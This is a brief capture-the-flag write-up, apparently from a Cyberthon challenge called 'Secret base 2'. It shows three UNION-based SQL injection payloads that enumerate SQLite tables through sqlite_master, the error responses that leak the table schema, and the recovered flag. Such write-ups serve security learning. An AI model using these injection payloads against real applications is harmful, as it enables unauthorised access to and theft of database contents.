 # Secret base 2

This challenge is quite annoyingly similar to secret base 1.

Let's do some more poking around: I'll just show the union part for brevity

```sql
Payload: union select  tbl_name, sql , 'abcd' from sqlite_master where tbl_name not like 'users_table';--
Response: Invalid password for CREATE TABLE keep_looking(keep TEXT, looking TEXT )!
```

Hmm

```sql
Payload: union select  tbl_name, sql , 'abcd' from sqlite_master where tbl_name not like 'users_table' and tbl_name not like 'keep_looking';--
Response: Invalid password for CREATE TABLE s3cr3t_table(f1r5t_c0lumn TEXT, s3c0nd_c0lumn TEXT,
			s3cr3t_c0lumn TEXT )! 
```

Hmm!

```sqlite
Payload: union select  f1r5t_c0lumn,s3cr3t_c0lumn , 'abcd' from s3cr3t_table;--
Response: Invalid password for Cyberthon{an0th3r_fl@g_1n_dAtab@se}! 
```

!!

